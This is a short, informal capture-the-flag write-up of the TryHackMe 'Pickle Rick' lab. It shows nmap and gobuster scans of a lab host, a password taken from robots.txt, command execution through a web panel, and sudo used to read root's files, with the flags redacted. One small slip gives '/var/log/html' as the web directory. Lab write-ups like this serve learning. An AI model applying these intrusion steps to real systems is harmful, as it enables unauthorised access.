 # Pickle Rick Try Hack Me Notes

## NMAP SCAN

```
sudo nmap -sC -sV -T4 10.10.89.136

```
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-08 20:21 MST
Nmap scan report for 10.10.89.136
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:10:42:06:db:2d:dc:9f:a8:9d:49:d9:42:69:da:44 (RSA)
|   256 f9:68:3a:35:c7:8c:d2:4c:8a:c5:3e:e6:b5:7f:70:65 (ECDSA)
|_  256 d8:b8:23:24:16:ef:6b:63:01:53:a7:51:b0:a8:af:fe (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## GoBuster

```
gobuster dir -u http://10.10.89.136 -w /usr/share/wordlists/dirb/common.txt 
```
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

## Nikto



## Password

The website contained a robots.txt file and inside there was only written...

```
Wubbalubbadubdub
```
I assumt this is password for the username we found earlier. The nikto scan gave us a login.php page. Lets try. (I assume its a password since its a recurring saying on the show)

## LOGIN

```
username: R1ckRul3s
password: xxxxxxxxxxxxxx
```
Success! We are now logged into via remote cli webpage.

## CLI

First I checked with a "whoami" command to see our user. We are www-data.

Next I checked what directory we are in. We are in "/var/log/html" which is the default directory for http servers on linux devices.

Then I ran a "ls" command to see all items in the directory.

```
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```
Clue and the Super Secret Ingredient files look useful. 

The commands cat, more are disabled but less turned out to work on clue.txt, it says:

```
Look around the file system for the other ingredient.
```
Running less on Super secret got the first flag...

```
xxx xxxxxx xxxx
```
Now I used the CLI to enumerate the home directory. I was able to see a file for the second ingredient:

```
x xxxxx xxxx
```

## Privilege Escalasion

I checked the CLI for the command sudo. It ran with no output. I assume that means it worked. SO I ran sudo -l to list what this user can run as sudo. It can run everything with no password. Now we can see what is inside the root directory.

```
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```
ohhhhh we see a ssh directory and the third and final text document.

```
sudo less /root/3rd.txt

3rd ingredients: XXXXXXXXXX
```

## SSH Directory

Nadda.

## Summary

This was a quick and fun challenge to get my brain going. I need to start doing more web application boxes to try and better myself. I understand alot of the core concepts of web application testing. But however I run into an issue when push coes to show whats going on with the devices if I cant get a useful directory. 

